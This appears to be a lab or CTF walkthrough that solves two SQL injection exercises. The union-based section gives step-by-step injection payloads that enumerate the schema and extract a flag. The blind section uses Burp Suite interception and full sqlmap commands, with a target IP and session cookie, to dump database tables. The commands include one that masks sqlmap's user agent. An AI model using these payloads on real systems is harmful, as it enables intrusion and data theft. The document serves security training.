# [Web Application Security Testing](../README.md) -> __SQL injection (Union Based, Blind)__

- [Web Application Security Testing -\> __SQL injection (Union Based, Blind)__](#web-application-security-testing---sql-injection-union-based-blind)
  - [__SQL injection - Union Based__](#sql-injection---union-based)
  - [__SQL injection - Blind__](#sql-injection---blind)

## __SQL injection - Union Based__



Solution

1. Run the task.
2. To check the possibility of injection, enter:

   ```sql
   ' OR 1=1 #
   ```

3. Click the `[Submit]` button.

   

   The query worked and returned all the data from the table in the response.

4. According to the answer, you need to make sure that the number of fields in this table is 6. To do this, enter the following command

   ```sql
   ' OR 1=1 UNION SELECT 1,2,3,4,5,6 #
   ```

5. Press `[Enter]`

   

   Since we did not receive an error, there are 6 fields in this table.

6. Now we need to find out the name of the database. To do this, run the following command:

   ```sql
   ' AND 0 UNION SELECT 1,2,3,database(),5,6 #
   ```

   

7. Once we know the name of the database, we can find out the names of the tables in it. To do this, run the following command:

   ```sql
   ' AND 0 UNION SELECT 1,2,3,table_name,5,6 FROM information_schema.tables WHERE       table_schema=database(); #
   ```

   

   > __Note:__
   >
   > To make it easier to enter long commands, we can change the width of the input field before sending the request. For this
   >
   > 1. Press `[F12]` button (*to open developer toolbar*)
   > 2. Go to the "*Inspector*" tab
   > 3. In the code you need to find the input field
   > 4. Click on it
   > 5. In the CSS property, find the `width` parameter
   > 6. Double click to activate editing
   > 7. Enter what is acceptable for display

8. We found 2 tables, one of which is `Flag`. Run the following command to find out the field names of this table

   ```sql
   ' AND 0 UNION SELECT 1,2,3,column_name,5,6 FROM information_schema.columns WHERE       table_name='Flag'; #
   ```

   

9. This table contains only one `Flag` field. To get the value of this field, run the following command:

   ```sql
   ' AND 0 UNION SELECT 1,2,3,Flag,5,6 FROM Flag #
   ```

   

10. Collect the "*Flag*".

## __SQL injection - Blind__

Solution

1. Run the task

   

   > __Note:__
   >
   > Here we see a drop-down menu whose value is used as a parameter to be passed.

2. Select any value (*e.g.: `1`*)
3. Press `[F12]` button (*to open developer panel tools*)
4. Go to the Inspector tab.
5. Find the list of options.
6. Double-click the option with a value of `1`.
7. To check the possibility of injection, enter `1' OR 1=1 #`.

   

8. Launch the Burp Suite.
9. Go to the Proxy tab.
10. Activate interception by clicking the `[Interception is Off]` button.

    

11. Return to the browser and click the `[Submit]` button.
12. The burp suit will open automatically after interception.
13. Disable interception by clicking the `[Interception is on]` button.
14. Go to the "*Target*" tab.
15. Click on the target hostname.
16. Find the *POST* request with our value.
17. As we can see, our __request was URL encoded__, but the request worked and returned all the data from the table in the response. This indicates the possibility of an attack.

    

    > __NOTE:__
    >
    > If we carry out the attack manually, we will have to spend a lot of time as we will have to code each request before sending it.
    >
    > We can do the same thing in the browser, but it will still be extremely inefficient.
    >
    >The most efficient solution would be to use the __SQLMap__ tool. To carry out an attack from a request, we may need some headers (*User-Agent, Referer, Cookie*).

18. Press the key combination `[Ctrl]`+`[Alt]`+`[T]` to launch the terminal.
19. Enter the following command to get the database names.

    ```sh
    sudo sqlmap -v -u "http://178.172.195.18:11199/sqli_blind/" --cookie="session=4c44cafb-bfab-4efe-8f84-bae849131804.nbQj2QfPcb7j9G4zaWfh5Dog_3M" --data "item=1%27" --method POST --user-agent="Mozilla/5.0 (X11; Linux x86_64;rv:109.0) Gecko/20100101 Firefox/115.0" --referer="http://178.172.195.18:11199/sqli_blind/" -p item --dbs
    ```

    

    > __Here:__
    >
    > - `-v` - verbosity.
    > - `-u` - target URL.
    > - `--cookie=` - HTTP Cookie header value.
    > - `--data` - data string to be sent via POST.
    > - `--method` — optional, only to indicate the method.
    > - `--user-agent=` - only for hiding sqlmap.
    > - `--referer=` - HTTP Referer header value.
    > - `-p` - parameter(s) to check.
    > - `-dbs` - display a list of DBMS databases.

20. Press `[Enter]`.

    

    As a result, we received the names of 5 databases. We are not interested in the `Acad` database because, it was used in the previous task. Most likely we need to study the `Acad2` database.

21. Enter the following command to get the table names of the `Acad2` database.

    ```sh
    sudo sqlmap -v -u "http://178.172.195.18:11199/sqli_blind/" --cookie="session=4c44cafb-bfab-4efe-8f84-bae849131804.nbQj2QfPcb7j9G4zaWfh5Dog_3M" --data "item=1%27" --method POST --user-agent="Mozilla/5.0 (X11; Linux x86_64;rv:109.0) Gecko/20100101 Firefox/115.0" --referer="http://178.172.195.18:11199/sqli_blind/" -p item -D Acad2 --tables
    ```

    

    __Here:__

    - `-D` - DBMS database for enumeration.
    - `--tables` - display a list of DBMS database tables.

22. Press `[Enter]`.

    

    As a result, we got the name of 2 tables. We are interested in the `Flag` table.

23. To get the list of fields use the following command.

    ```sh
    sudo sqlmap -v -u "http://178.172.195.18:11199/sqli_blind/" --cookie="session=4c44cafb-bfab-4efe-8f84-bae849131804.nbQj2QfPcb7j9G4zaWfh5Dog_3M" --data "item=1%27" --method POST --user-agent="Mozilla/5.0 (X11; Linux x86_64;rv:109.0) Gecko/20100101 Firefox/115.0" --referer="http://178.172.195.18:11199/sqli_blind/" -p item -D Acad2 -T Flag --columns
    ```

    

    > __Here:__
    >
    > - `-T` - DBMS database table(s) to enumerate.
    > - `--columns` - list the columns of the DBMS database table.

24. Press `[Enter]`.

    

    We found that this table only contains one `Flag` field with a text value.

25. To get the value of this field, enter the following command.

    ```sh
    sudo sqlmap -v -u "http://178.172.195.18:11199/sqli_blind/" --cookie="session=4c44cafb-bfab-4efe-8f84-bae849131804.nbQj2QfPcb7j9G4zaWfh5Dog_3M" --data "item=1%27" --method POST --user-agent="Mozilla/5.0 (X11; Linux x86_64;rv:109.0) Gecko/20100101 Firefox/115.0" --referer="http://178.172.195.18:11199/sqli_blind/" -p item -D Acad2 -T Flag -C Flag --dump
    ```

    

    >__Here:__
    >
    > - `-C` - column(s) of the DBMS table to be enumerated.
    > - `--dump` - dump DBMS database table records.

26. Press `[Enter]`.

    

27. Collect the "*Flag*".
